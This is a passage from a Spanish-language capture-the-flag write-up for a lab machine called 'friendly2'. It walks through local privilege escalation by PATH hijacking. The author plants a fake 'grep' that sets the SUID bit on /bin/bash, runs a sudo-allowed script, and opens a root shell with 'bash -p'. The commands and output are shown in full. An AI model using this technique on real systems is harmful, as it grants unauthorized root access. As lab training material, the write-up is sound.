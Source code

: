 ~~~
if echo "$string" | grep -q '[^[:alnum:] ]'; then
  echo "The string cannot contain special characters."
  exit 1
fi

sus1='A-Za-z'
sus2='N-ZA-Mn-za-m'

encoded_string=$(echo "$string" | tr $sus1 $sus2)

echo "Original string: $string"
echo "Encoded string: $encoded_string"
~~~

Vemos que todo apunta a un path hijacking, ya que el script llama a los comandos con ruta relativa.


### Path hijacking

En la máquina [Crazymed](https://kaianperez.github.io/crazymed/) teníamos permisos de escritura en un directorio del PATH, por lo que creamos allí el fichero directamente.

En este caso, vamos a intentar secuestrar el PATH creando el comando "grep" y dándole permisos de ejecución:

~~~
gh0st@friendly2:~$ echo "chmod +s /bin/bash" > grep
gh0st@friendly2:~$ chmod +x grep
~~~

Ahora añadimos nuestro directorio de trabajo (donde hemos generado el fichero "grep") al PATH y lanzaremos el script como root mediante sudo:

~~~
gh0st@friendly2:~$ sudo PATH=/home/gh0st:$PATH /opt/security.sh
Enter the string to encode:
hola
Original string: hola
Encoded string: ubyn
gh0st@friendly2:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
~~~

Solo nos falta convertir la bash en privilegiada e ir a por la flag:

~~~
gh0st@friendly2:~$ bash -p
bash-5.1# cd /root
bash-5.1# ls
interfaces.sh  root.txt
bash-5.1# cat root.txt 
Not yet! Try to find root.txt.


Hint: ...
~~~
